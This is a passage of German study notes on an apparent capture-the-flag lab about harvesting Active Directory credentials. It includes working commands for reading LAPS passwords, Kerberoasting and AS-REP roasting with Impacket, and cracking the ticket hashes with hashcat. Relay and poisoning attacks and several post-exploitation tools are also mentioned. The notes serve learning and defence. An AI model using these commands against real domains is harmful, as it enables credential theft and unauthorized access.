PS C:\Users\thm> Find-AdmPwdExtendedRights -Identity THMorg

ObjectDN                                      ExtendedRightHolders
--------                                      --------------------
OU=THMorg,DC=thm,DC=red                       {THM\LAPsReader}
```

Wir sehen im Output das die LAPsReader Gruppe in THMorg zugang zu LAPS hat. Schauen wir uns die Member dieser Gruppe an:

```bash
PS C:\Users\thm> net groups "LAPsReader"
Group name     LAPsReader
Comment

Members

-------------------------------------------------------------------------------
bk-admin
The command completed successfully.

PS C:\Users\victim> net user bk-admin
User name                    bk-admin
Full Name                    THM Admin Test Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

[** Removed **]
Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
                             *LAPsReader           *Enterprise Admins
The command completed successfully.
```

### Getting the Password

Wir sehen, dass BK-Admin ein Mitglied der LapsReader Gruppe ist, also müssen wir diesen User kompromettieren oder nachahmen. Nachdem wir das getan haben, können wir mit dem ***Get-AdmPwdPassword*** cmdlet das LAPS Passwort bekommen.

```bash
PS C:\> Get-AdmPwdPassword -ComputerName creds-harvestin

ComputerName         DistinguishedName                             Password           ExpirationTimestamp
------------         -----------------                             --------           -------------------
CREDS-HARVESTIN      CN=CREDS-HARVESTIN,OU=THMorg,DC=thm,DC=red    FakePassword    2/11/2338 11:05:2...
```

Es wichtig zu beachten, dass in einem realen Active Directory LAPS nur auf bestimmten Computern verfügbar ist. Das bedeutet man muss den richtigen Computer sowie den richtigen Account finden. Es gibt dafür auch Scripts wie bspw. [LAPSToolKit](https://github.com/leoloobeek/LAPSToolkit)

# Other Attacks

Bisher sind wir immer davon ausgegangen, dass wir bereits einen Zugang zum Netzwerk haben und Credentials aus dem Speicher oder aus Dateien im Windows System ziehen. 

### Kerberoasting

Kerberoasting ist eine beliebte AD Attacke um an Tickets zu kommen und Persistence zu erreichen. Für eine erfolgreiche Attacke muss der Angreifer Zugang zu SPN Accounts haben wie bspw. IIS, MSSQL etc. 
Kerberoasting beinhaltet  das Anfragen eines TGT und TGS um eine Privilege Escalation und Lateral Movement zu erreichen. 

Wir demonstrieren diese Attacke. Wir suchen erstmal nach SPN Account an die wir eine Anfrage für ein TGS senden können. 

```bash
user@mimpacket-GetUserSPNs -dc-ip 10.10.97.98 THM.red/thm
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName          Name     MemberOf  PasswordLastSet             LastLogon  Delegation
----------------------------  -------  --------  --------------------------  ---------  ----------
http/creds-harvestin.thm.red  svc-user            2022-06-04 00:15:18.413578  
```

Wir sehen den SPN Account ***svc-user*** an den wir unseren TGS Request senden können. 
Wir schicken also ein TGS Ticket request für den srv-user mit dem ***-request-user*** Argument:

```bash
user@machine$ impacket-GetUserSPNs -dc-ip 10.10.97.98 THM.red/thm -request-user svc-user 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName          Name     MemberOf  PasswordLastSet             LastLogon  Delegation
----------------------------  -------  --------  --------------------------  ---------  ----------
http/creds-harvestin.thm.red  svc-user            2022-06-04 00:15:18.413578  

[-] CCache file is not found. Skipping...
$krb5tgs$23$*svc-user$THM.RED$THM.red/svc-user*$8f5de4211da1cd5715217[*REMOVED*]7bfa3680658dd9812ac061c5
```

Diesen Hash cracken wir jetzt mit Hashcat:

```bash
user@machine$ hashcat -a 0 -m 13100 spn.hash /usr/share/wordlists/rockyou.txt
```

### AS-REP Roasting

Das ist eine Technik die es einem Angreifer erlaubt, Password Hashes zu für AD User Accounts zu erhalten, bei denen die Option "Do not require Kerberos pre-authentication" ausgewählt ist. Diese Option bezieht sich auf das alte Kerberos Authentication Protokoll, die es eine authentifizierung ohne Passwort erlaubt. Wenn wir die Hashes haben, können wir sie eventuell cracken und das Passwort erhalten.



Lass uns diese begehrten Accounts finden, die keine Pre-Auth brauchen. Impacket hat da das passende Tool für uns:

```bash
root@machine$ impacket-GetNPUsers -dc-ip 10.10.97.98 thm.red/ -usersfile /tmp/users.txt
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User thm doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$victim@THM.RED:166c95418fb9dc495789fe9[**REMOVED**]1e8d2ef27$6a0e13abb5c99c07
[-] User admin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User bk-admin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc-user doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User thm-local doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Sobald das Tool die entsprechenden Accounts gefunden hat gibt es die Hashes für die Tickets aus.

Entweder wieder cracken oder vlt. sowas wie Pass-the-Hash?

### SMB Relay Attack

Diese Attacke nutzt den NTLM Authentication Mechanismus bzw. das NTLM Challenge-response-Protokoll aus. Der Angreifer performt eine Man-in-the-Middle Attacke und captured SMB Pakete und extrahiert die Hashes. Für diese Attacke muss das SMB Signing deaktiviert sein. SMB Signing ist ein Sicherheitscheck und stellt sicher, dass der Verbindung vertraut wird. 
Für weitere Infos bitte in Exploiting AD schauen.

### LLMNR/NBNS Poisoning

Link-Local Multicast Name Resolution LLMNR und NetBIOS Name Service NBT-NS helfen lokalen Maschinen im Netzwerk den richtigen Rechner zu finden wenn DNS fehlschlägt. Zum Beispiel wenn eine Maschine im Netzwerk versucht einen Host zu erreichen für den es keinen DNS Record (DNS failed to resolve) gibt. In diesem Fall sendet die Maschine eine Multicast Message an alle Hosts im Netzwerk und fragt nach der richtigen Adresse über LLMNR oder NBT-NS.

Das LLMNR/NBNS Poisoning tritt auf, wenn ein Angreifer sich als legitime Quelle im Netzwerk ausgibt und auf den Multicast Rundruf bzw. auf den LLMNR/NBNS Verkehr antwortet, und somit eine Authentifizierung provoziert. 

Das Ziel dahinter ist, diese Authentifizierung abzufangen und den NTLM Hash zu dumpen.


# Conclusion

Recap

In this room, we discussed the various approaches to obtaining users' credentials, including the local computer and Domain Controller, which conclude the following:

We discussed accessing Windows memory, dumping an LSASS process, and extracting authentication hashes.
We discussed Windows Credentials Manager and methods to extract passwords. 
We introduced the Windows LAPS feature and enumerated it to find the correct user and target to extract passwords.
We introduced AD attacks which led to dumping and extracting users' credentials.
The following tools may be worth trying to scan a target machine (files, memory, etc.) for hunting sensitive information. We suggest trying them out in the enumeration stage.

[Snaffler](https://github.com/SnaffCon/Snaffler)

[Seatbelt](https://github.com/GhostPack/Seatbelt)

[Lazagne](https://www.hackingarticles.in/post-exploitation-on-saved-password-with-lazagne/)


